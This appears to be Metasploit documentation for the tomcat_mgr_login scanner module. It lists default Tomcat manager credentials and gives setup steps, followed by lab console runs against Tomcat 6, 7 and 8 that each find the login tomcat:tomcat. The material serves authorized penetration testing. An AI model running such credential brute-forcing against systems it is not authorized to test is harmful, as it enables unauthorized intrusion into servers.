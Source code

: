 The `auxiliary/scanner/http/tomcat_mgr_login` works for Tomcat versions that uses HTTP
authentication.

Please note that for Tomcat 7 or newer, the roles required to use the manager application were
changed from the single `manager` role to the following four roles:

* manager-gui - Allows access to the HTML GUI and the status pages.
* manager-script - Allows access to the text interface and the status pages.
* manager-jmx - Allows access to the JMX and the status pages.
* manager-status - allows access to the status pages only.

Older versions of Tomcat came with default passwords enabled by default. For example:

**Tomcat 4**

| Username | Password | Role          |
| -------- | -------- | ------------- |
| tomcat   | tomcat   | tomcat        |
| role1    | tomcat   | role1         |
| both     | tomcat   | tomcat, role1 |

**Tomcat 5**

Same as Tomcat 4

Newer Tomcat versions have these passwords commented out.

If you are using the default Metasploit credential lists, these usernames and passwords are already
loaded.


## Vulnerable Application

To download the vulnerable application, you can find it here: https://tomcat.apache.org/whichversion.html.

## Verification Steps

1. Do: ```auxiliary/scanner/http/tomcat_mgr_login```
2. Do: ```set RHOSTS [IP]```
3. Set TARGETURI if necessary.
4. Do: ```run```

## Scenarios

All scenarios are run with the credentials tomcat/tomcat.

### Tomcat 6

Tomcat 6.0.48 running on Ubuntu 14.04

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rport 8080
rport => 8080
msf auxiliary(tomcat_mgr_login) > set rhosts 192.168.2.156
rhosts => 192.168.2.156
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.2.156:8080 - LOGIN FAILED: admin:admin (Incorrect)
```
...snip...
```
[-] 192.168.2.156:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.2.156:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.2.156:8080 - LOGIN FAILED: both:admin (Incorrect)
```
...snip...
```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Tomcat 7

Tomcat 7.0.68 running on Windows XP

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rport 8087
rport => 8087
msf auxiliary(tomcat_mgr_login) > set rhosts 192.168.2.108
rhosts => 192.168.2.108
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.2.108:8087 - LOGIN FAILED: admin:admin (Incorrect)
```
...snip...
```
[-] 192.168.2.108:8087 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.2.108:8087 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.2.108:8087 - LOGIN FAILED: both:admin (Incorrect)
```
...snip...
```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Tomcat 8

Tomcat 8.0.32 unning on Windows XP

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rhosts 192.168.2.108
rhosts => 192.168.2.108
msf auxiliary(tomcat_mgr_login) > set rport 8088
rport => 8088
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.2.108:8088 - LOGIN FAILED: admin:admin (Incorrect)
```
...snip...
```
[-] 192.168.2.108:8088 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.2.108:8088 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.2.108:8088 - LOGIN FAILED: both:admin (Incorrect)
```
...snip...
```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```